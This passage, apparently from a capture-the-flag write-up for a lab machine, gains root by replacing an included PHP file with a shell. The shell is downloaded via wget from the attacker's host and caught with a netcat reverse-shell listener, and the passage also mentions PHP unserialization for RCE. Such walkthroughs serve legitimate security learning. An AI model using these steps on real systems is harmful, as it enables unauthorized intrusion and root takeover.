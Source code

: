```php
        if($query)
        {
                echo 'Update Success with serialized logs!';
        }
}
else
{
        file_put_contents("/var/lib/playbuff/merge.log","no issues yet");
        $update = file_get_contents("/var/lib/playbuff/logs.txt");
        $query = mysqli_query($conn, "update stats set status='$update' where id=1");
        if($query)
        {
                echo 'Update Success!';
        }
}
?>
```

We can do a RCE via unserialization of PHP. We only have write permission on **merge.log**:

```console
telegen@player:/var/lib/playbuff$ ll
ll
total 24
drwxr-xr-x  2 root    root    4096 Aug  9 20:24 ./
drwxr-xr-x 50 root    root    4096 Jan  5 06:36 ../
-rwx---r--  1 root    root     878 Mar 24  2019 buff.php*
-rw-r--r--  1 root    root      15 Jan  5 17:51 error.log
-r--------  1 root    root      14 Mar 24  2019 logs.txt
-rw-------  1 telegen telegen   13 Jan  5 17:51 merge.log
```

Or, as we can see the file is doing a include of **dee8dc8a47256c64630d803a4c40786g.php**. We can replace it for a shell.

```console
www-data@player:/var/www/html/launcher$ wget http://10.10.14.13:9000/dee8dc8a47256c64630d803a4c40786g.php -O dee8dc8a47256c64630d803a4c40786g.php
```

Waiting and we should get our shell:

```console
$ rlwrap nc -lvnp 443               
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.145] 35194
Linux player 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:59:01 up 20:22,  0 users,  load average: 0.10, 0.11, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: 0: can't access tty; job control turned off
# whoami
root
```
